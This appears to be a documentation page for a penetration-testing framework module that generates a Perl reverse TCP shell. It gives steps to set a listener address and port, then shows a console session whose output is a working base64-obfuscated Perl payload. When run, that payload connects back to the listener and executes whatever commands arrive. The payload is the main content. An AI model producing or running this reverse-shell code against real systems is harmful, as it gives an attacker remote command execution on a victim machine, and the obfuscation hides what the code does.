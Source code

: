 ## Description

Module generates payload that creates interactive tcp reverse shell by using perl. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/perl/reverse_tcp`
  3. Do: `set lhost 192.168.1.3`
  3. Do: `set lport 4321`
  4. Do: `run`
  5. Module generates perl tcp reverse shell payload

## Scenarios

```
rsf > use payloads/perl/reverse_tcp
rsf (Perl Reverse TCP) > set lhost 192.168.1.3
[+] lhost => 192.168.1.3
rsf (Perl Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (Perl Reverse TCP) > run
[*] Running module...
[*] Generating payload
use MIME::Base64;eval(decode_base64('dXNlIElPO2ZvcmVhY2ggbXkgJGtleShrZXlzICVFTlYpe2lmKCRFTlZ7JGtleX09fi8oLiopLyl7JEVOVnska2V5fT0kMTt9fSRjPW5ldyBJTzo6U29ja2V0OjpJTkVUKFBlZXJBZGRyLCIxOTIuMTY4LjEuMzo0MzIxIik7U1RESU4tPmZkb3BlbigkYyxyKTskfi0+ZmRvcGVuKCRjLHcpO3doaWxlKDw+KXtpZigkXz1+IC8oLiopLyl7c3lzdGVtICQxO319Ow=='))
```
